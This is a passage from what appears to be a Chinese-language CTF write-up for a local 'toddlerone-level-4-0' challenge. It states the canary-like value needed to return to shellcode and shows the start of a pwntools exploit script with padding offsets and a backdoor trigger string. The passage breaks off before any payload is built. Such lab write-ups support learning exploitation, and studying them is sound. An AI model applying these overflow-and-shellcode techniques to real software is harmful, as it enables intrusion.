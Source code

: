 很简单吧，令 `v14 == 0x49954B5EFDCB2A29` 才可以返回到我们的 shellcode。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-4-0"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x58
padding_to_v14_size = 0x48
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_canary = b"".ljust(0x8, b"A")
padding_to_ret = b"".ljust(0x8, b"A")
v14 = p64(0x49954B5EFDCB2A29)
fixed_offset = 0x1150


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")
```